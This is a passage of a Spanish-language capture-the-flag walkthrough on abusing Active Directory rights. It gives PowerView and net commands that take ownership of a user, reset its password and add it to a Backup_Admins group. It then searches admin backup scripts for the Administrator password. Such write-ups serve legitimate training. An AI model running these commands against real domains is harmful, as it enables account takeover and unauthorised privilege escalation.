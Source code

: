 Vemos que contiene el privilegio **WriteOwner** sobre **Claire**, esto quiere decir que le podemos cambiar la contraseña a este usuario.

--------------
#### Playing with PowerView (Set-DomainObjectOwner, Add-DomainObjectAcl & Set-DomainUserPassword)  
Lo que hariamos ahora, es importarnos el **PowerView.ps1** que habiamos encontrado de antes, y en powershell ejecutariamos el siguiente comando:
```
PS> Set-DomainObjectOwner -Identity claire -OwnerIdentity tom
```

Luego de ejecutar el comando, ejecutaremos esto:
```
PS> Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
```

Ahora crearmos una credencial en formato **Secure String**:
```
PS> $cred = ConvertTo-SecureString "sexcott123!$" -AsPlainText -Force
```

Y por ultimo:
```
PS> Set-DomainUserPassword -Identity claire -AccountPassword $cred
```

Terminado estos pasos, nos podemos conectar por **SSH** como el usuario Claire

------------
#### Abusing WriteDacl Active Directory Rights  
Listando los privilegios de **Claire** en el **excel** que encontramos, observamos que tenemos el privilegio **WriteDacl**, el cual nos permite ingresar al grupo del dominio:
![[Pasted image 20230801030635.png]]

Listamos los grupos existentes en el dominio:
```
PS> net group
```

Y encontramos el **Backup_Admins** el cual suena jugozo. Para colarnos a este grupo, lo que haremos sera ejecutar este comando:
```
PS> net group Backup_Admins claire /add
```

#### Information Leakage [Privilege Escalation]
Dentro de este grupo, tenemos la capacidad de listar todo el contenido del directorio de **Administrators**. Dentro del **Desktop** vemos un directorio de nombre **Backup Scripts** el cual contiene algunos archivos en **PowerShell**, podemos buscar recursivamente por la cadena **Password** dentro de todos estos archivos:
```
PS> dir | Select-String "Password"
```

Y encontramos la contraseña del Administrador:
```
Image Administrator
```

Con estas, podemos conectarnos por **SSH** como **Administrator**
